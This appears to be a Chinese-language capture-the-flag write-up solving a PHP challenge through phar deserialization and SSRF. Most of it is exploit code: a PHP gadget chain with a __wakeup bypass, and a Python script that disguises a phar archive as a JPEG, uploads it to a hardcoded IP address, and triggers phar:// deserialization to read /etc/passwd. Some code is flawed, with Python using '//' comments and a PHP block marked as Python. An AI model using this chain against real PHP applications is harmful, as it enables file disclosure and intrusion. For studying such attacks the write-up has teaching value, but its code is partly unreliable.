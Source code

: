 根据class.php，显然利用phar反序列化+SSRF去打内网服务

先找到链子

`GuestShow`的`construct` -> `destruct` ->` AdminShow`的`toString` ->`get` ->`show`函数

```python
<?php
class GuestShow{
    public $file;
    public $contents;
    public function __construct($a,$b)
    {
        $this->file = new AdminShow($a, $b);
    }
}
class AdminShow{
    public $source;
    public $str;
    public $filter;
    public function __construct($a,$b){
        $this->source=$b;
        $this->schema=$a;
    }
}
$guestShow=new GuestShow($argv[1],$argv[2]);
//绕过wakeup
echo str_replace('"AdminShow":4','"AdminShow":5',serialize($guestShow));
```

然后写脚本，利用phar反序列化和SSRF

```python
import base64
import time
import requests
import io
import os
//构造反序列化值，中间有空格
payload=f"php 1.php file:// /etc/passwd"
res=os.popen(payload).read()
print(res)
//因为需要phar文件，所以自己本地创建./phar目录和.metadata.bin文件，同时将正常的phar文件下的东西也复制到./phar目录下
with open(".phar/.metadata.bin", "w") as f:
    f.writelines(res.strip())
//将.phar和demo.txt压缩成一个1.jpg,不影响phar的触发（和zip协议一样）
os.popen("tar zcvf 1.jpg .phar demo.txt")
time.sleep(0.1)
url="http://47.104.95.124:8080/upload.php?fname=1.jpg"
f=io.BytesIO(b"t" * 1024 * 50)
r=requests.post(url=url,data={"PHP_SESSION_UPLOAD_PROGRESS": "2345"},files={"file": open("1.jpg", "rb")},cookies={"PHPSESSID": "2345"})
print(r.text)
//获取文件部分目录
path=r.text.split(" ")[-2].split("/")[-2]
print(path)
//访问直接触发phar反序列化
r=requests.get(f"http://47.104.95.124:8080/showfile.php?f=phar:///var/www/html/{path}/1.jpg/demo.txt",timeout=1)
print(r.text)
//对base64进行解密
res=base64.b64decode(r.text.split("<body>")[-1].replace(" ","").split(",")[-2].split("/>")[-2])
print(res.decode())
```
